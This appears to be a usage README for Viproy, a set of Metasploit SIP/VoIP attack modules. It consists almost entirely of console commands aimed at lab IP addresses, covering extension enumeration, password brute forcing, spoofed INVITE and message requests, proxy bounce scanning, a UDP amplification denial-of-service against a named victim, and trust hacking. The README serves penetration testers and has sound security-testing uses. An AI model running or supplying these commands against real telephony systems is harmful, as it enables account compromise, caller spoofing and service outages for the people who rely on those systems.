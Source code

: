 #SIP Modules Usage

##Register 

use auxiliary/voip/viproy_sip_register <br>
set RHOSTS 192.168.1.222 <br>
set USERNAME 201<br>
set FROM 201<br>
set PASSWORD password123<br>
set PROTO TCP<br>
set LOGIN true<br>
set DEBUG true<br>
set VERBOSE true <br>
run<br>

##Options 

use auxiliary/voip/viproy_sip_options <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

##Negotiate 

use auxiliary/voip/viproy_sip_negotiate <br>
set RHOSTS 192.168.1.221-222<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run<br>

##Subscribe 

use auxiliary/voip/viproy_sip_subscribe<br>
set RHOST 192.168.1.221<br>
set PROTO UDP<br>
set DEBUG true<br>
set VERBOSE true<br>
run

##Enumerate 

use auxiliary/voip/viproy_sip_enumerate <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 100<br>
set NUMERIC_MAX 210<br>
set VERBOSE false<br>
run

##Brute Force 

use auxiliary/voip/viproy_sip_bruteforce <br>
set RHOST 192.168.1.221<br>
set NUMERIC_USERS true<br>
set NUMERIC_MIN 101<br>
set NUMERIC_MAX 102<br>
set PASSWORD letmein123<br>
set VERBOSE true<br>
set DEBUG true<br>
run<br>

##Invite

use auxiliary/voip/viproy_sip_invite <br>
show options <br>
set CPORT 5075<br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set DEBUG true<br>
set VERBOSE true<br>
set LOGIN true<br>
set PASSWORD test12345<br>
set USERNAME 203<br>
run<br>

##Invite

use auxiliary/voip/viproy_sip_message<br>
show options <br>
set RHOST 192.168.1.222<br>
set FROM 203<br>
set TO 201<br>
set USERNAME 203<br>
set LOGIN true<br>
set MESSAGE_CONTENT test<br>
set PASSWORD test12345<br>
run<br>

##Proxy Bounce Scan

use auxiliary/voip/viproy_sip_proxybouncescan <br>
show options <br>
set CPORT 5089<br>
set RHOSTS 192.168.1.220-225<br>
set RPORTS 5060-5070<br>
set SIP_SERVER_IP 192.168.1.222<br>
set SIP_SERVER_PORT 5060<br>
run<br>

##UDP Amplification DOS

use auxiliary/voip/viproy_sip_udpampdos <br>
set SIP_SERVERS 192.168.1.221<br>
set VICTIM_IP 192.168.1.222<br>
set VICTIM_PORT 5098<br>
set INTERFACE en5<br>
show options <br>
run<br>

##UDP Trust Hacking

use auxiliary/voip/viproy_sip_trusthacking <br>
set SRC_RHOSTS 192.168.1.220-225<br>
set SIP_SERVER 192.168.1.222<br>
set THREADS 5<br>
set INTERFACE eth0<br>
run<br>


